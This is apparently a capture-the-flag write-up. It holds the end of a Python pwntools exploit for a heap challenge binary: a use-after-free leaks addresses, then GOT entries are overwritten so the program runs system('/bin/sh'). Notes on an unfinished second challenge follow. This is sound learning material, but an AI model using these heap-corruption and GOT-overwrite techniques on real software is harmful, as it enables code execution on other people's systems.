 ```python
    payload += p32(heap_addr)
    payload += p32(0x0) * 0x5
    payload += p32(src)
    payload += p32(0x00000021)
    set(0, payload)

p = process("./ezpz2")
elf = p.elf

create()
create()
destroy(0)
destroy(1)

heap_addr = u32(ask(1)[:4])
libc_base = read_memory(elf.got["puts"]) - 0x067c10

# The general idea is to cause the call of puts(banner) in the print_banner() function to be overwritten such that it will invoke system('bin/sh'), then to overwrite the _exit() function to print_banner().
# This will cause a call to _exit() to instead pop a shell
write_memory(elf.got["_exit"],      p32(elf.symbols["print_banner"]))
write_memory(elf.symbols["banner"], b"/bin/sh\x00")
write_memory(elf.got["puts"],       p32(libc_base + 0x03d250))

# An invalid command that will invoke _exit()
destroy(44)

p.interactive()
p.close()
```


notezpz
==========================================================
General overview:
----------------------------------------------------------
1. I wasn't able to finish this in time, but I believe that it would follow a similar method to the previous one.
2. I found how to leak the <main_arena> libc function through changing the size of a buffer before it was freed, and then filling up the tcache. From here the backwards pointer pointed to <main_arena+56>.
3. I leaked the backwards pointer by first leaking the address of one of the freed nodes with a use-after free (ask would write the location of the next pointer in a free node)
4. After this I found the offsets of "/bin/sh\x00" and system() from the libc database. So I needed to store these in the buffer used for invoking ask_question()
5. Finally I needed to write these functions into the correct place in the heap buffer, and invoke ask_question(), however I ran out of time.

Flag:
----------------------------------------------------------
    FLAG{}
